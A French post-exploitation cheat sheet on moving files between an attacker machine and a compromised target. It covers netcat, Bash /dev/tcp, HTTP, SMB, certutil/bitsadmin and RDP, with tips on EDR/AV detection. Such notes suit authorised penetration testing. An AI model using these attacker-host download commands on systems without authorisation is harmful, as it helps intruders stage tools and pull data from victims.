

Ce document détaille les techniques de transfert de fichiers en phase de post-exploitation, en complément des notes sur **Linux**, **Windows**, **Python**, **Web** et **Webshells**.



## Netcat / Ncat

### Transfert depuis la machine compromise
Le serveur est configuré sur la machine cible pour recevoir le flux de données.

```bash
# Sur la machine cible
nc -l -p 8000 > fichier.exe

# Sur la machine d'attaque
nc -q 0 <IP cible> 8000 < fichier.exe
```

### Utilisation de Ncat
**Ncat** offre une gestion plus robuste des connexions et des timeouts.

```bash
# Machine cible
ncat -l -p 8000 --recv-only > fichier.exe

# Machine d'attaque
ncat --send-only <IP cible> 8000 < fichier.exe
```

### Transfert inverse
Le serveur est configuré sur la machine d'attaque pour envoyer le fichier vers la cible.

```bash
# Attaquant
sudo nc -l -p 443 -q 0 < fichier.exe

# Cible
nc <IP attaquant> 443 > fichier.exe
```

### Transfert via /dev/tcp
Utilisation native du shell **Bash** pour rediriger un flux vers une socket TCP.

```bash
# Machine cible
cat < /dev/tcp/<IP attaquant>/443 > fichier.exe
```

> [!warning] Limitation
> Le transfert via **/dev/tcp** est limité par la taille du buffer et ne gère pas nativement la reprise en cas d'interruption.

## HTTP/HTTPS (Python SimpleHTTPServer, Apache, Nginx)

Le transfert via HTTP est l'une des méthodes les plus discrètes et efficaces.

```bash
# Python 3 (SimpleHTTPServer)
python3 -m http.server 80

# Côté cible (Windows)
powershell -c "iwr -uri http://<IP>/file.exe -outfile file.exe"

# Côté cible (Linux)
wget http://<IP>/file.exe
curl -O http://<IP>/file.exe
```

> [!warning]
> Nécessité de privilèges pour ouvrir des ports < 1024 lors de la mise en place de serveurs d'écoute.

## SMB/CIFS (Impacket-smbserver, SMB client)

Utile pour transférer des fichiers sans authentification ou via des partages réseau existants.

```bash
# Lancer un serveur SMB sur la machine d'attaque
impacket-smbserver -smb2support share $(pwd)

# Accéder au partage depuis la cible Windows
copy \\<IP>\share\file.exe C:\Temp\file.exe
```

## FTP/TFTP

Le protocole **FTP** est souvent autorisé en sortie. **TFTP** est utile car il ne nécessite pas d'authentification, bien qu'il soit moins sécurisé.

```bash
# Serveur FTP rapide avec Python (pyftpdlib)
python3 -m pyftpdlib -p 21

# Client FTP Windows
ftp <IP>
ftp> get file.exe
```

## PowerShell Remoting (WinRM)

### Prérequis
Le service **WinRM** doit être actif sur le port 5985 (HTTP) ou 5986 (HTTPS). L'accès nécessite des privilèges appropriés.

```powershell
# Vérifier si WinRM est accessible
Test-NetConnection -ComputerName NOM_MACHINE -Port 5985

# Créer une session distante
$session = New-PSSession -ComputerName NOM_MACHINE

# Copier fichier local -> distant
Copy-Item -Path fichier.txt -ToSession $session -Destination C:\Users\Public\

# Copier distant -> local
Copy-Item -Path "C:\fichier.txt" -FromSession $session -Destination .
```

> [!danger] Risque de détection
> Attention aux logs générés par **WinRM** et au risque de détection par les solutions **EDR** ou **AV** lors de l'utilisation intensive de **PowerShell**.

## Certutil/Bitsadmin (Windows native)

Ces outils sont présents par défaut sur Windows et permettent de télécharger des fichiers sans outils tiers.

```bash
# Certutil
certutil -urlcache -split -f http://<IP>/file.exe file.exe

# Bitsadmin
bitsadmin /transfer job /download /priority normal http://<IP>/file.exe C:\Temp\file.exe
```

## Base64 encoding/decoding

Utile pour transférer des fichiers via des shells restreints ou des interfaces web où le transfert binaire direct échoue.

```bash
# Encoder en Base64 sur l'attaquant
base64 -w 0 fichier.exe > fichier.b64

# Décoder sur la cible (Windows)
certutil -decode fichier.b64 fichier.exe
# Ou via PowerShell
[System.IO.File]::WriteAllBytes("file.exe", [System.Convert]::FromBase64String((Get-Content "fichier.b64")))
```

## SCP/SFTP

Si un accès SSH est disponible, **SCP** ou **SFTP** sont les méthodes les plus sécurisées.

```bash
# SCP
scp file.exe user@<IP>:/tmp/

# SFTP
sftp user@<IP>
sftp> put file.exe
```

## Transfert via RDP

### Copier/coller direct (Windows)
L'utilisation de **mstsc.exe** permet de monter des lecteurs locaux sur la session distante via l'onglet "Ressources locales" > "Périphériques".

### Utilisation sous Linux
Les outils **rdesktop** et **xfreerdp** permettent de monter un répertoire local comme un lecteur réseau distant.

```bash
# Avec rdesktop
rdesktop <IP> -u user -p pass -r disk:partage=/chemin/local

# Avec xfreerdp
xfreerdp /v:<IP> /u:user /p:pass /drive:partage,/chemin/local
```

L'accès au répertoire monté se fait via le chemin `\\tsclient\partage` sur le bureau distant.

> [!danger] Risque de détection
> Attention aux logs générés par les connexions **RDP** et le montage de disques distants.

## Conseils de transfert

> [!tip] Astuces pratiques
> - Toujours vérifier l'intégrité des fichiers transférés via **md5sum** ou **sha256sum**.
> - Utiliser l'encodage **Base64** en dernier recours pour contourner les filtres de caractères spéciaux.
> - Nécessité de privilèges pour ouvrir des ports < 1024 lors de la mise en place de serveurs d'écoute.
> - Maintenir une redondance de méthodes (ex: **Python SimpleHTTPServer**, **SMB**, **FTP**) pour pallier les restrictions réseau.